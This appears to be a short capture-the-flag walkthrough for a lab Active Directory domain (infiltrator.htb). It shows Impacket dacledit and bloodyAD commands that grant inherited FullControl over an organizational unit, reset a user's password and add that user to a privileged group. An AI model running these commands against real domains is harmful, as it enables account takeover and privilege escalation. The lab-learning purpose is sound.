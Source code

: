 
https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory


## Organizational Unit

#### Control of the Organization Unit

With full control of the OU, you may add a new ACE on the OU that will inherit down to the objects under that OU. Below are two options depending on how targeted you choose to be in this step:


![](Generic_All.png)

#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
└─# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'D.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

Now, the "d.anderson" user will have full control of Marketing Digital OU.
```



```
└─# impacket-dacledit -action 'write' -principal 'D.anderson' -target-dn 'CN=E.RODRIGUEZ,OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

After we own this OU, can modify other group , user objets in this OU.

bloodyAD.py -d infiltrator.htb -u d.anderson -k --host DC01.infiltrator.htb set password 'e.rodriguez' 'WAT?watismypass!' 


bloodyAD.py -d infiltrator.htb -u e.rodriguez -p 'WAT?watismypass!' --host DC01.infiltrator.htb add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" "e.rodriguez"

```






